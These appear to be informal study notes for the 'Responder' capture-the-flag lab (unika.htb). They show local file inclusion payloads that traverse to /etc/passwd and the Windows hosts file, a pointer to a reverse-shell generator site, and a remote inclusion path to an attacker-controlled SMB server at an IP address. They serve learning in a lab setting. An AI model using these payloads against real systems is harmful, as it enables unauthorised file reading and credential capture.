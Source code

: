 ## Responder

😍to use domain name insteed of ip address
- open  /etc/hosts via sublime
- paste the ip and infront of it type the domain name
#### pro tip :  use tldr instead of man pages
revshell.com 👈 this is a online version of reverse shells.(💦definetly check this💦)
Local FIle Enclusion 

this occurs only if url like this
www.unika.htb/index.php?page=french.html

so in this if we want to perform LFI ; do ../../../../../ after the page=
eg:-     ...php?page=../../../../../../../etc/passwd  < linux 
"...php?page=..\\..\\..\\..\\..\\windows\system32\drivers\etc\hosts"  < windows 


in this scenario we make a smb server in overself and connect the target(unika.htb) to us.

../index.php?page=//10.10.123.116/❤️

